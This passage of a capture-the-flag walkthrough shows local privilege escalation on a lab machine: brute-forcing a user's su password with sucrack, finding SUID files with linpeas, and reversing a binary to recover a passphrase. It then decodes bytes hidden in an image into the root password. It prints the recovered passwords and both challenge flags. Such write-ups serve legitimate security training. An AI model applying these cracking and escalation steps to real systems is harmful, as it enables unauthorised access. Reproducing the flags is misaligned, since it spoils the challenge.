./configure
make
make install
```

lastly, cd to `src` and execute:
```bash
www-data@ubuntu:/tmp/sucrack/src$ ./sucrack -w 100 -u hakanbey /tmp/wordlist_edited.txt 
password is: 123adanasubaru
```



now we can move to user `hakanbey`



and the user flag is:
```bash
hakanbey@ubuntu:~$ cat user.txt 
THM{8ba9d7715fe726332b7fc9bd00e67127}
```

### Privilege Escalation to Root via reversing and password find hidden inside root.jpg

we can find interesting files with SUID bit, when executing linpeas.sh.



I tried to execute `/usr/bin/binary`, it asks for some string:
```bash
hakanbey@ubuntu:/var/www/subdomain$ /usr/bin/binary
I think you should enter the correct string here ==>bla
pkill: killing pid 4271 failed: Operation not permitted
```

So, I downloaded the binary, and reversed engeener it, the password is `warzoneinadana`



I tried this password, and it gave me some hint:
```bash
hakanbey@ubuntu:/var/www/subdomain$ /usr/bin/binary
I think you should enter the correct string here ==>warzoneinadana
Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/Desktop/root.jpg (CyberChef)

Copy /root/root.jpg ==> /home/hakanbey/root.jpg
```



This is the image it copied for us:


Using cyberchef, I took the bytes from `0x20`, and put it through hex and theb base85.
[https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Base85('!-u',false)&input=ZmVlOSA5ZDNkIDc5MTggNWZmYyA4MjZkIGRmMWMgNjlhYyBjMjc1](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Base85('!-u',false)&input=ZmVlOSA5ZDNkIDc5MTggNWZmYyA4MjZkIGRmMWMgNjlhYyBjMjc1)



and this is what we got:
```bash
root:Go0odJo0BbBro0o
```



```bash
hakanbey@ubuntu:~$ su root # password is Go0odJo0BbBro0o
Password: 
root@ubuntu:/home/hakanbey# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/hakanbey# cat /root/root.txt 
THM{c5a9d3e4147a13cbd1ca24b014466a6c}
```